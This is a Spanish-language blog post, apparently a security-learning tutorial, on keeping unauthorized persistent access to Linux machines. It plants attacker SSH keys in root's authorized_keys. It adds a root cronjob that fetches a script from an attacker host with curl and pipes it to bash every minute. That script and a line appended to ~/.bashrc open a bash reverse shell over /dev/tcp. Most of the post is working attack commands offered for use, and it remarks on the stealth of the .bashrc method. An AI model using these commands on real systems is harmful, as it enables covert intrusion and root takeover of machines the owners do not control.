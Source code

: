 ```yaml
---
title: Accesos no autorizados en Linux - Info
published: true
---
```


# [](#header-1)Introducción
Este post está dedicado para aprender técnicas comunes para puertas traseras en linux. Basicamente un backdoor es algo que podemos hacer para garatizarnos de poder acceder al sistema de manera constante. Aunque la máquina se apague o se reinicie podremos seguir teniendo acceso.

Obviamente esto no es una vulnerabilidad, si no que son técnicas para mantenernos con acceso al objetivo.
## [](#header-2) Puertas traseras en SSH
Esta es nuestra primera técnica que veremos, ssh backdoors.
Principalmente, esto consiste en dejar nuestras llaves ssh en el directorio de inicio de un usuario. En la mayoría de casos, el directorio sería en el de root. ¿Por qué? Porque es el usuario con mayores privilegios. Para poder hacer eso, tenemos que crear un conjunto de llaves ssh con el comando `ssh-keygen`.

> ![image](https://github.com/cerodah/blog/assets/82907557/2dfda856-50c8-4627-a567-7928c02a7abe)

Ahora que tenemos la llave publica y la privada podemos dejarla en /root/.ssh. No olvides cambiar el nombre de la llave publica, normalmente tiene como extension `.pub`, a authorized_keys. Si el directorio no existe, simplemente crealo con `mkdir -p /root/.ssh`. El parametro `-p` asegurará que se cree el directorio ".ssh" en root y si existe, no generará ningún error por pantalla.

Lo más seguro es que tenga que otorgar los permisos necesarios a la llave privada para que la llave sea accesible solamente para el propietario y nadie más (además ssh se quejará si no lo hacemos...). Con el comando `chmod 600 id_rsa` se hace.
Hay que tener algo que en cuenta. Este "backdoor" no está oculto en absoluto, ya que cualquier usuario con permisos necesarios podrá eliminar tanto nuestra llave pública (authorized_keys) como nuestra llave privada!
## [](#header-2) Puertas traseras en Cronjobs
Ahora que hemos visto una técnica, ¿por qué no pasar a la otra?. Este método consiste en crear una tarea. 
En Linux las cronjobs (trabajos cron) son tareas programadas que se ejecutan automáticamente a intervalos especificados por el usuario. Como dato, este término se denomina así ya que viene de un servicio de planificación de tareas en sistemas de tipo Linux y Unix.
Esto es bastante útil ya que se puede aprovechar para hacer backups cada x tiempo, actualizaciones y ejecuciones de scripts. 

Ese archivo se encuentra en la ruta `/etc/crontab` y si miramos lo que hay, seguramente encuentre algo parecido a esto: 
> ![image](https://github.com/cerodah/blog/assets/82907557/23133ff3-c9c6-4e36-a98c-1a33759a9a4b)

Una vez que haya obtenido acceso a cualquier host podrá usted mismo agregar su propia tarea.
Si mira bien puede ver que está el simbolo (*) presente al lado del numero 17, esto significa que la tarea se ejecutará cada hora. Pues bien , para aprovecharnos podemos agregar esta linea a nuestro archivo cronjob
```bash
* *     * * *   root    curl http://$IP:8080/shell | bash
```
Si se fija he puesto varios "*". ¿Por qué? Así, le estamos diciendo que queremos que nuestra tarea se ejecute cada minuto. (cada minuto de cada hora, todos los días, todos los meses y todos los días de la semana). Despues indicamos al usuario en el que se ejecutará la tarea, en este caso, es root. Después con curl realiazamos una petición HTTP a la URL "http://$IP:1337/shell" y finalmente con la tubería (|) pasamos la salida de curl como entrada de bash. Dentro de el archivo shell esta este código.
```bash
#!/bin/bash
bash -i >& /dev/tcp/ip/puerto 0>&1
```
Para que esto funcione el archivo debe de ser cargado en algún sitio en este caso usaremos python.
```python
python3 -m http.server 8080
```
Tampoco olvides estar escuchando por el puerto 1337 con netcat.
> ![image](https://github.com/cerodah/blog/assets/82907557/3a314627-6f1e-4323-b000-98e5914e05af)

Como se puede observar en la terminal derecha, al estar esperando un minuto a llegado momento en el que el archivo crontab haga su trabajo y nos de una sesión como root! 

## [](#header-3) Puerta trasera en ".bashrc"
¿Cómo? Un backdoor en el archivo de configuración de bash. ¡Sí!
En la mayoría de sistemas Linux y Unix, por defecto la shell predeterminada es la de bash. En esta shell, encontramos su archivo de configuración (~/.bashrc) y es el que se ejecuta cada vez que se inicia una sesión interactiva.
Podemos ejecutar este comando el cual ejecutamos una instancia interactiva y posteriormente rediriccionamos la entrada y salida de bash hacia un socket de red
```bash
echo 'bash -i >& /dev/tcp/$IP/puerto 0>&1' >> ~/.bashrc
```
No olvide estar escuchando por netcat por el puerto correspondiente.
Esta es una técnica un tanto robusta, ya que el usuario no suele mirar este archivo a menos que vaya a configurar algo de la shell.

